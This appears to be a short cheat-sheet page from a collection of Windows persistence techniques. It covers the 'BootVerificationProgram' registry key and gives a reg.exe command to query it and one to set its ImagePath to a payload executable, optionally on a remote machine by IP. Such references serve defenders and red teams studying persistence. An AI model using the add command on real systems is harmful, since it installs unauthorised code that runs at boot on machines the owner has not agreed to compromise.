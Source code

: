 # Boot Verification Program

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\BootVerificationProgram
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\BootVerificationProgram /t REG_SZ /v ImagePath /d "C:\path\to\payload.exe" /f
```

---
## References

### Persistence Info

- [Persistence Info: Boot Verification Program](https://persistence-info.github.io/Data/bootverificationprogram.html)
